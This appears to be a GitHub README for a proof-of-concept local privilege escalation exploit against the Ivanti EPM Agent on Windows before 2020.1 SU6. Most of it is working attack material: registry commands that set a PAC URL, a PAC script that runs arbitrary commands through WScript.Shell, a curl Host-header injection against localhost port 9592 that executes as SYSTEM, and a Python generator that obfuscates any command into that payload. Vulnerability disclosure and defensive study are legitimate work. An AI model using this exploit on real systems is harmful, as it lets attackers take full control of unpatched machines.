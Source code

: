 # Ivanti-EPM-LPE
Ivanti EPM Agent < 2020.1 SU6 Windows Local Privilege Escalation

1) Check if a PAC script is already set:
```
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v AutoConfigURL
```
2) A PAC script must be set manually if no registry key is found:
```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v AutoConfigURL /t REG_SZ /d _CUSTOM_PAC_URL_ /f
```
3) Run the first command to check if changes were made.
4a) If a custom PAC URL was supplied, the following code can be used in the PAC script to supply commands to execute:

```
function FindProxyForURL(url,host) {
	var shell = new ActiveXObject("WScript.Shell");
	shell.Run("_COMMAND_");
}
```


4b) Now the below Curl request triggers injection of the code in the PAC and executes it as SYSTEM

```
curl http://localhost:9592 -H "Host: \"+\""
```

5) If any other PAC script is enabled, use the Python script below to generate the curl request that triggers code injection:

```
def replace_special_chars(s):
    def escape(c): return str(ord(c))

    r, c = [], []
    for ch in s:
        if ch.isalnum() or ch in ' \t\n\r\x0b\x0c':
            if c: r.append(f'+String.fromCharCode({",".join(c)})+'); c = []
            r.append(f'\\"{ch}\\"')
        else:
            c.append(escape(ch))

    if c: r.append(f'+String.fromCharCode({",".join(c)})+')

    return ''.join(r).replace('++', '+').replace('\\"\\"', '').strip('+')

if __name__ == "__main__":
    input_string = input("Enter the command to be executed: ")
    command = replace_special_chars(input_string)
    host = f"\\\"+(new ActiveXObject(\\\"WScript.Shell\\\")).Run({command})+\\\""
    if len(host.replace("\\","")) > 255:
        print("CAUTION: Host header length exceeded 255 characters, Curl will not send the entire value")
    print(f"Exploit request:\n\ncurl http://localhost:9592 -H \"Host: {host}\"")

```


Example request that executes "cmd /c whoami > C:\\Temp\proof.txt"

```
curl http://localhost:9592 -H "Host: \"+(new ActiveXObject(\"WScript.Shell\")).Run(\"cmd \"+String.fromCharCode(47)+\"c whoami \"+String.fromCharCode(62)+\" C\"+String.fromCharCode(58,92)+\"Temp\"+String.fromCharCode(92)+\"proof\"+String.fromCharCode(46)+\"txt\")+\""
```
